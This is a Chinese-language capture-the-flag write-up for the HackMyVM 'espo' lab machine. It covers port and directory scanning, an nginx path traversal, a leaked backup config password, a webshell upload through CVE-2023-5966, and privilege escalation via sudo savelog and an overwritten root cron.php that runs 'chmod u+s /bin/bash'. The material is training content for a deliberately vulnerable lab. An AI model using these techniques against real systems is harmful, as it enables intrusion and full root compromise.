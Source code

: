 ```yaml
---
sidebar_position: 6
tags: [Easy, Linux, nginx, 定时任务]
title: espo
description: espo
---
```

# espo
## 端口扫描
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# nmap -sTCV -p- --min-rate 1000 192.168.0.102
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-16 02:43 EDT
Nmap scan report for 192.168.0.102 (192.168.0.102)
Host is up (0.020s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u1 (protocol 2.0)
| ssh-hostkey: 
|   256 dd:83:da:cb:45:d3:a8:ea:c6:be:19:03:45:76:43:8c (ECDSA)
|_  256 e5:5f:7f:25:aa:c0:18:04:c4:46:98:b3:5d:a5:2b:48 (ED25519)
80/tcp open  http    nginx
|_http-title: EspoCRM
| http-robots.txt: 1 disallowed entry 
|_/
MAC Address: 08:00:27:C8:C3:DB (Oracle VirtualBox virtual NIC)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.69 seconds
```
## HTTP - 80
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240416153448.png)
找了一圈, 相关的漏洞都需要先登陆网站才可以操作
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# gobuster dir -u http://192.168.0.102/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x txt,php,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.0.102/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,php,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 2480]
/admin                (Status: 301) [Size: 162] [--> http://192.168.0.102/admin/]
/portal               (Status: 301) [Size: 162] [--> http://192.168.0.102/portal/]
/install              (Status: 301) [Size: 162] [--> http://192.168.0.102/install/]
/client               (Status: 301) [Size: 162] [--> http://192.168.0.102/client/]
/api                  (Status: 301) [Size: 162] [--> http://192.168.0.102/api/]
/robots.txt           (Status: 200) [Size: 26]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```
看了一圈什么漏洞都没有发现, 觉得是中间件相关的漏洞但是没有什么发现看了 WP提示后发现是 nginx 目录穿越漏洞
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# gobuster dir -u http://espo.hmv/admin../ -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-small-directories.txt -x html,txt,php,bak,zip 
/admin                (Status: 301) [Size: 162] [--> http://espo.hmv/admin../admin/]
/_oldsite             (Status: 301) [Size: 162] [--> http://espo.hmv/admin../_oldsite/]
                                                                                                                                                               
┌──(root㉿kali)-[~/CTF/HackerMyVM]
└─# gobuster dir -u http://espo.hmv/admin../_oldsite -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,txt,php,bak,zip 
/info                 (Status: 200) [Size: 540]
/backup.zip           (Status: 200) [Size: 37975754]
```
使用工具扫描之后可以发现其中有一个备份文件, 在其中可以获取到一个账号密码
```bash
┌──(root㉿kali)-[~/CTF/HackerMyVM/backup/data]
└─# cat config.php 
<?php

  'smtpUsername' => 'admin',
  'smtpPassword' => '39Ue4kcVJ#YpaAV24CNmbWU',
?>
```
在搜寻之后发现一个漏洞可以利用 [CVE-2023-5966](https://github.com/pedrojosenavasperez/cve-2023-5966/tree/main) 从扩展选项处进行上传文件, 之后点击安装就会写入一个 `webshell.php` 文件
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240416154233.png)
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240416154210.png)
随后获取一个反向 Shell
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240416154343.png)
## 后渗透
### www-data --> mandie
查看 mandie 用户家目录下发现一个 copyPics 文件, 其中的作用是将 `/var/shared_medias` 目录下的文件进行分类存放, 这回涉及到命令执行的问题
```bash
(remote) www-data@espo:/home/mandie$ cat copyPics 
#!/bin/bash

SOURCE_MEDIAS="/var/shared_medias"
PICTURES_DIR="$HOME/pictures"
VIDEOS_DIR="$HOME/videos"

/usr/bin/find "$SOURCE_MEDIAS" ! -executable -exec /usr/bin/cp {} "$HOME" 2>/dev/null \;
mkdir -p "$PICTURES_DIR" "$VIDEOS_DIR"

declare -A directory_mappings
directory_mappings=( ["$PICTURES_DIR"]="jpeg jpg" ["$VIDEOS_DIR"]="mp4 avi" )

for dir in "${!directory_mappings[@]}"; do
    for ext in ${directory_mappings[$dir]}; do
        mv "$HOME"/*.$ext "$dir/" 2>/dev/null
    done
done
```
在代码中可以看到是会将 `/var/shared_medias` 下的所有非执行文件移动到 `/home/mandie` 目录下的, 所以可以直接将 `copyPics` 文件复制到 `/var/shared_medias` 之后添加反向 Shell 命令
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240416164859.png)
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240416164914.png)
### mandie --> root (第一种方式)
发现 mandie 用户具有 SUDO 权限, 可以执行一个 savelog 的 Shell 脚本, 使用 GPT 分析后认为可以使用这个脚本来生成 `/root/root.txt` 的日志文件
```bash
(remote) mandie@espo:/home/mandie$ sudo -l
sudo: unable to resolve host espo: Name or service not known
Matching Defaults entries for mandie on espo:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mandie may run the following commands on espo:
    (ALL : ALL) NOPASSWD: /usr/bin/savelog
(remote) mandie@espo:/home/mandie$ file /usr/bin/savelog 
/usr/bin/savelog: POSIX shell script, ASCII text executable
```
如下操作
```bash
(remote) mandie@espo:/home/mandie$ sudo -u root /usr/bin/savelog -r /tmp /root/root.txt
sudo: unable to resolve host espo: Name or service not known
Rotated `/root/root.txt' at Tue Apr 16 02:05:07 PM CEST 2024.
(remote) mandie@espo:/home/mandie$ ls -al /tmp/root.txt.0 
-rwx------ 1 root root 33 Dec  4 15:42 /tmp/root.txt.0
(remote) mandie@espo:/home/mandie$ sudo -u root /usr/bin/savelog -u mandie /tmp/root.txt.0 
sudo: unable to resolve host espo: Name or service not known
Rotated `/tmp/root.txt.0' at Tue Apr 16 02:06:42 PM CEST 2024.
(remote) mandie@espo:/home/mandie$ ls -al /tmp/root.txt.0 
-rw-r--r-- 1 mandie root 0 Apr 16 14:06 /tmp/root.txt.0
(remote) mandie@espo:/home/mandie$
```
### www-data --> root(第二种方式: 直接提权)
上传 pspy 进行分析, 发现有一个 root 进程在执行 `cron.php` 文件, 并且这个 php 文件属于 `www-data` 用户
![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240416160955.png)
```bash
(remote) www-data@espo:/var/www/html$ ls -al cron.php 
-rw-r--r-- 1 www-data www-data 1531 Dec  4 15:42 cron.php
(remote) www-data@espo:/var/www/html$ cat cron.php 
<?php
include "bootstrap.php";

use Espo\Core\{
    Application,
    ApplicationRunners\Cron,
};

(new Application())->run(Cron::class);
```
所以我直接重写 `cron.php` 文件修改 `/bin/bash` 的权限
```php
<?php
	system('chmod u+s /bin/bash');
?>
```
### www-data --> mandie (扩展手段)
> 从 [HackMyVm : Espo](https://medium.com/@mrwhitecap/hackmyvm-espo-c2bb7f8af751) 学习到的手段属实长见识了

之前发现的脚本文件作用是将 `/var/shared_meidas` 下的非执行文件复制到 `/home/mandie` 下, 所以可以利用 `.forward` 文件来进行操作

![](https://raw.githubusercontent.com/JTZ-a/Image/main/img/20240416202843.png)